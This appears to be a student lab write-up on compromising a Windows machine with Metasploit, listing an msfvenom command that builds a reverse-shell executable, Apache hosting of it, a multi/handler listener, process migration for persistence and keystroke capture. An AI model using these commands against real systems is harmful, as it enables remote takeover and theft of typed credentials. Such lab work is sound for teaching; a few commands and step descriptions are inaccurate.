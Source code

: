 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### NAME:SANJAY ASHWIN P
### REG NO:212223040181
# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 31 18_5f9d2595](https://github.com/user-attachments/assets/a10d10df-1055-4c9e-b4e8-2cff6b62fdd7)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 43 49_799464eb](https://github.com/user-attachments/assets/b9dc914f-6c12-434d-a4ab-9263af9ef852)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 47 07_c6e7043b](https://github.com/user-attachments/assets/562aa67f-8d76-41f0-8add-8fb8cc2cf68a)


Start apache server
sudo systemctl apache2 start
## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 49 53_b962cf8d](https://github.com/user-attachments/assets/4dd21c44-bf67-47b4-a8f2-90699d018eeb)

Check the status of apache2
## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 50 49_8e5f64c2](https://github.com/user-attachments/assets/49764b81-d94c-4ea1-abc4-8c91bb8bb906)

Invoke msfconsole:
## OUTPUT:
![WhatsApp Image 2024-11-01 at 17 56 44_14e8711a](https://github.com/user-attachments/assets/2207bcbb-ee1e-4c2a-a4d9-8f44fd5d48be)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![WhatsApp Image 2024-11-01 at 17 57 24_7438089c](https://github.com/user-attachments/assets/35e68da2-d561-49ec-9f6f-ca9ea8a49997)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![WhatsApp Image 2024-11-01 at 18 01 15_ea1edaed](https://github.com/user-attachments/assets/cdb145a9-a1d0-4f24-8605-5e76d7689d44)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![image](https://github.com/user-attachments/assets/dc06a11b-8ee7-4823-b4c4-30fc9e50a3eb)

Bypass any warning boxes, double-click the file, and allow it to run.

![image](https://github.com/user-attachments/assets/a517238b-a224-40d6-93ca-f2efed2c75b2)

On kali give the command exploit

![WhatsApp Image 2024-11-01 at 18 12 04_448ad010](https://github.com/user-attachments/assets/01044599-fd74-433d-ba7a-a96a45e2b164)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![WhatsApp Image 2024-11-01 at 18 12 46_ee3b1ab9](https://github.com/user-attachments/assets/0362e76b-955b-46e4-a561-584b86e29192)



The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:
migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![image](https://github.com/user-attachments/assets/4341677e-a58c-483f-af17-c58e6b61c58b)


Post Exploitation
keyscan_dump	Shows the keystrokes captured so far

![WhatsApp Image 2024-11-01 at 18 15 09_3e278d2d](https://github.com/user-attachments/assets/5ba20273-6a12-499d-8338-c0b183df5d62)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

